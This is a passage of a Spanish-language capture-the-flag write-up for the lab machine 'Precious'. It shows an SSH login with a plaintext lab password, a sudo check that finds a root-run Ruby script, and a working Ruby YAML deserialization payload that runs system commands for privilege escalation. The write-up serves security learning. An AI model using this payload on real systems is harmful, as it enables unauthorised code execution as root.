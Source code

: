 
```bash
ruby@precious:~$ ssh henry@10.10.11.189
The authenticity of host '10.10.11.189 (10.10.11.189)' can't be established.
ECDSA key fingerprint is SHA256:kRywGtzD4AwSK3m1ALIMjgI7W2SqImzsG5qPcTSavFU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.189' (ECDSA) to the list of known hosts.
henry@10.10.11.189's password: Q3c1AqGHtoI0aXAYFH 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb 19 10:46:31 2023 from 10.10.14.103
henry@precious:~$ 
```
Procedemos a leer la flag del usuario


```bash
henry@precious:~$ cat user.txt 
67****************************bc
henry@precious:~$ 
```
## Escalada de Privilegios
Viendo por permisos **SUDO** nos encontramos con este


```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
Si leemos ese archivo vemos que intenta cargar el archivo "dependencies.yml", si buscamos por internet nos encontramos con este [blog](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/) y este repositorio de [GitHub](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565), nos creamos un archi con este contenido.

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```
